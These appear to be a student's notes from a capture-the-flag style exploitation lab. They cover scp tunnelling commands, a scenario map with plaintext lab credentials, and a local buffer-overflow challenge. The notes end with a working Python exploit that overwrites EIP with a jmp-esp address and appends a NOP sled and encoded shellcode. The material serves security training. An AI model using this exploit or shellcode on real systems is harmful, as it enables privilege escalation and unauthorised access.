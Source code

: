 # scp command

## Syntax
```
scp <source> <destination>
```

## Local to Remote:
```
scp /path/to/file.txt student@10.50.XX.XX:/path/to/destination/file.txt
```

## Remote to Local:
```
ssh student@10.50.XX.XX:/path/to/source/file.txt .
```

## Remote to Local via tunnel:
```
ssh -MS /tmp/jump student@10.50.XX.XX

ssh -S /tmp/jump dummy -O forward -L 1111:192.168.28.XX:2222

scp -P 1111 creds@127.0.0.1:/path/to/source/file.txt /path/to/destination
```

## Local to Remote via tunnel:
```
scp -P 1111 /path/to/source/file.txt creds@127.0.0.1:/path/to/destination/file.txt
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Map Description

Gorgas Exploit Development (GED)
XX Mar 2023
Start Time: 1300
Duration: 4 hours

Type of Operation: DEVOPS

Objective:Gorgas Cyber Forces have been able to retrieve copies of the files for your analysis, and stored them under /longTermStorage; however, you will be required to perform your exploits on the target systems. Maneuver through Donovian network, and successfully develop exploit to gain host access.

Tools/Techniques: Exploit binaries on target systems using the tools below.

    Python
    OllyDBG or an equivelent graphical program
        http://www.ollydbg.de/
    GNU Debugger's(GDB) Python Exploit Development Assistance Module
        https://github.com/longld/peda
    MetaSploit
        https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers

Scenario Credentials: FLAG = 3XPL01T5t@rt0F@ct1v1ty

Prior Approvals: Gorgas Cyber Forces have been able to retrieve copies of the files for your analysis; however, you will be required to perform your exploits on the target systems. Exploit Donovian-Webserver, Donovian-Terminal, and Donovian-Manager hosts.

Scheme of Maneuver:
>Jump Box: ```10.50.37.98```
>Password: ```v0cEcUbwIzY878p```
->T1: 192.168.28.111
-->T2: 192.168.28.105

>Jump Box: ```10.50.37.98```
>Password: ```v0cEcUbwIzY878p```
->donovian_grey_host
-->T3: 192.168.150.245

Target Section:

T1 
user: ```comrade```
pass: ```StudentWebExploitPassword```
Hostname: Donovian_Webserver
IP: ```192.168.28.111```
OS: CentOS
Creds: comrade :: StudentWebExploitPassword
Last Known SSH Port: ```2222```
Action: Exploit binary.

```/.hidden/inventory.exe```
```/.secret/.verysecret.pdb```

T2 
```user: comrade```
pass: ```StudentWebExploitPassword```
Hostname: Donovian-Terminal
IP: ```192.168.28.105```
OS: unknown
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222

T3
Hostname: unknown
IP: ```192.168.150.245```
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Exploit a network service on the machine

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------# Challenge  

ELF Exploitation 1
8
Level III Challenge

Situation: Other teams have extracted this networked binary from a Donovian development network. It is believed to closely related to software running in both the Donovian and Gorgan internal networks. Discover vulnerabilities and create a reliable exploit to gain remote access. This will enable exploitation against Donovian targets and provide the basis for developing mitigations on friendly Gorgan networks. You will be required to exfil a copy from the target to your Op Station.

Provided: Executable Package: ```inventory.exe```
Task: Perform a ```local buffer overflow``` on the vulnerable Linux executable, in order to gain access to the desired intel.
Method: Utilize RE toolset and python to launch and develop exploit.

```ASLR is disabled on the target machine```.

Exploit this binary found on 192.168.28.111 at /.hidden/inventory.exe to escalate privileges from your pivot user to root.

Enter the contents of /.secret/.verysecret.pdb as the flag

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Scheme of Manuver:
```
- unset environmentals
- run executable, break the buffer
- run proc map
- first memory adress after heap, and the very last address in the stack
	- ``` find /b 0xf7de1000, 0xffffe000, 0xff(hex for jump command), 0xe4(hex for ESP) ```
- grab the first 4 memory addresses, change from little to big endian
	- nop sled ``` nop = "\x90" * 15 ```
- either msfconsole or msfvenom to generate the shellcode
	- ie
```

Before starting the scheme of manuver:
- try to identify the vulnerable function
- run it through strings on the Windows and the Linux OPs Stations

## unset environmentals
- run a "clean" version of gdb
```
env = gdb ./file.exe
```
- in the "clean gdb"
```show env```
```unset env COLUMNS```
```unset env LINES```
```run```

## run executable, break the buffer


## run proc map


## first memory adress after heap, and the very last address in the stack
	 ``` find /b 0xf7de1000, 0xffffe000, 0xff(hex for jump command), 0xe4(hex for ESP) ```


## grab the first 4 memory addresses, change from little to big endian
- nop sled
``` nop = "\x90" * 15 ```


## either msfconsole or msfvenom to generate the shellcode
	- ie

# buffer.py script:
```
#!/usr/bin/env python
  2 
  3 #buffer size is 62
  4 
  5 buffer = "A" * 76
  6 #eip = "BBBB"
  7 eip = "\x59\x3b\xde\xf7"
  8 #eip = "\xab\x88\xf5\xf7"
  9 #eip = "\xfb\x45\xf6\xf7"
 10 #eip = "\x0f\x46\xf6\xf7"
 11 
 12 #Grabbing jmp esp
 13 # command you run: find /b 0xf7de1000, 0xffffe000, 0xff(hex for jump command), 0xe4(hex for ESP)
 14 
 15 #0xf7de3b59 -> f7 de 3b 59 -> "\x59\x3b\xde\xf7"
 16 #0xf7f588ab -> f7 f5 88 ab -> "\xab\x88\xf5\xf7"
 17 #0xf7f645fb -> f7 f6 45 fb -> "\xfb\x45\xf6\xf7"
 18 #0xf7f6460f -> f7 f6 46 0f -> "\x0f\x46\xf6\xf7"
 19 
 20 
 21 #buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
 22 
 23 
 24 nop = "\x90" * 15
 25 buf =  b""
 26 buf += b"\xdb\xcf\xb8\x96\x84\x1e\x72\xd9\x74\x24\xf4\x5b"
 27 buf += b"\x33\xc9\xb1\x11\x31\x43\x17\x83\xc3\x04\x03\xd5"
 28 buf += b"\x97\xfc\x87\xb3\x9c\x58\xf1\x11\xc5\x30\x2c\xf6"
 29 buf += b"\x80\x26\x46\xd7\xe1\xc0\x97\x4f\x29\x73\xf1\xe1"
 30 buf += b"\xbc\x90\x53\x15\xa3\x56\x54\xe5\xbf\x37\x20\xc5"
 31 buf += b"\x10\x96\xbb\x60\x0c\x94\x5e\x1e\xfd\x76\xd7\xbb"
 32 buf += b"\x73\xfe\x64\x26\x17\x72\xee\xdc\xf9\x02\x94\x7e"
 33 buf += b"\x06\xb4\x07\xf7\xe7\xf7\x28"
 34 
 35 print(buffer+eip+nop+buf)
```




